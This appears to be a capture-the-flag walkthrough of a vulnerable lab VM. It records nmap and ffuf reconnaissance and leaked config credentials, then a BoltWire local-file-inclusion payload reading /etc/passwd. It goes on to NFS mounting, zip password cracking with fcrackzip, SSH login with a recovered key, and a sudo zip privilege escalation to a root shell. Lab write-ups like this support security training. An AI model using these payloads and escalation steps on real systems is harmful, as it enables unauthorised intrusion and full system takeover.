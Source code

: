 * Scanning using netdiscover and nmap:

```shell
sudo netdiscover -r 192.168.57.0/24
# 192.168.57.9

nmap -T4 -p- -A 192.168.57.9
```
- results
```shell
Nmap scan report for 192.168.57.9
Host is up (0.0011s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      33831/udp6  mountd
|   100005  1,2,3      44657/udp   mountd
|   100005  1,2,3      56309/tcp   mountd
|   100005  1,2,3      57901/tcp6  mountd
|   100021  1,3,4      33192/udp6  nlockmgr
|   100021  1,3,4      39257/tcp6  nlockmgr
|   100021  1,3,4      39563/tcp   nlockmgr
|   100021  1,3,4      47102/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
33499/tcp open  mountd   1-3 (RPC #100005)
39563/tcp open  nlockmgr 1-4 (RPC #100021)
56309/tcp open  mountd   1-3 (RPC #100005)
58705/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.78 seconds

```
- ssh
- skip
- http
- definitely check
- rpcbind
- advanced
- nfs

* HTTP 80/8080
* Visiting the links http://192.168.57.9:80 and http://192.168.57.9:8080
  * Bolt CMS -  current folder is /var/www/html/
  * PHPinfo - /var/run/apache2
	  * PHP Version 7.3.27-1~deb10u1
	  * Linux dev 4.19.0-16-amd64 - Debian 4.19.181-1
* dir scanning
```shell
ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt:FUZZ -u http://192.168.57.9:80/FUZZ
ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt:FUZZ -u http://192.168.57.9:8080/FUZZ
```

* 80
* /public
* /src
* /app
	* /config/config.yml
	* **user=bolt, pass=I_love_java**
* /vendor
* /extensions>
* 8080
* /dev 
	* boltwire site
* /server-status

```bash
searchsploit boltwire                                                                                                                             
 -------------------------------------------------------------------------------------------------------------------------------------------------
BoltWire 3.4.16 - 'index.php' Multiple Cross-Site Scripting Vulnerabilities                                                                                                                               | php/webapps/36552.txt
BoltWire 6.03 - Local File Inclusion                                                                                                                                                                      | php/webapps/48411.txt
--------------------------------------------------------------------------------------------------------------------------------------------------
Shellcodes: No Results

```
- LFI exploit in v6
	-  https://www.exploit-db.com/exploits/48411
	- create account and go to `http://192.168.51.169/boltwire/index.php?p=action.search&action=../../../../../../../etc/passwd`
	- gets user **jeanpaul**

* nfs_acl
```shell
showmount -e 192.168.57.9 #shows export list - 
# /srv/nfs

mkdir /mnt/dev/ 
mount -t nfs 192.168.57.9:/srv/nfs /mnt/dev/

cd /mnt/dev/
unzip save.zip # needs pass

apt install fcrackzip # crack zip passwords
fcrackzip -v -u -D -p /root/rockyou/rockyou.txt save.zip
# java101
# 2 files
```

  * todo.txt some text from jp
  * id_rsa, ssh key needs username => jeanpaul?.
```bash
ssh -i id_rsa jeanpaul@192.168.57.9
#pass I_love_java

history # look at command history

sudo -l # list commands for regular user w/o pass
# zip=> check gtfobins
```
- https://gtfobins.github.io/

```bash
TF=$(mktemp -u)

sudo zip $TF /etc/hosts -T -TT 'sh #'
# rootshell

id
cd /root
ls
cat flag.txt
```